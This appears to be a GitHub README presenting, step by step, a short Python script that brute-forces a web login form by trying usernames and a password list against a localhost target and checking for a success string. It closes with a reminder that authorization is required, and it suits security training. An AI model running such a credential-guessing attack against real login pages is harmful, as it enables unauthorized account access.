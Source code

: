 # Web-Login-Form-Brute-Forcing

## Steps to perform Brute Forcing on Login Pages using the provided script:

#### 1. Import required libraries:
    import requests
    import sys
<br>

#### 2. Set up target URL and parameters:
    target = "http://127.0.0.1:5000"
    usernames = ["admin", "user", "test"]
    passwords = "top-1oo-list.txt"
    needle = "Welcome Back"
<br>

#### 3. Create a loop to iterate through usernames:
    for username in usernames:

<br>

#### 4. Open and read the password file:
    with open(passwords, "r") as passwords_list:

<br>

#### 5. Create a nested loop to iterate through passwords:
    for password in passwords_list:
                password = password.strip("\n").encode()

<br>

#### 6. Display current attempt:
    sys.stdout.write("[X] Attempting user:password -> {}:{}\r".format(username, password.decode()))
                sys.stdout.flush()

<br>

#### 7. Send POST request to the target URL:
    r = requests.post(target, data={"username": username, "password": password})

<br>

#### 8. Check if login was successful:
    if needle.encode() in r.content:
                    sys.stdout.write("\n")
                    sys.stdout.write("\t[>>>>>>] Valid Password '{}' found for user '{}'!".format(password.decode(), username))
                    sys.exit()

<br>

#### 9. Handle case when no password is found:
    sys.stdout.flush()
            sys.stdout.write("\n")
            sys.stdout.write("\tNo Password Found for '{}'!".format(username))
            sys.stdout.write("\n")

<br>

_This script provides a basic framework for brute-forcing web login forms._ 

_However, it's important to note that using such scripts without permission is illegal and unethical._

_Always ensure you have proper authorization before testing security measures._
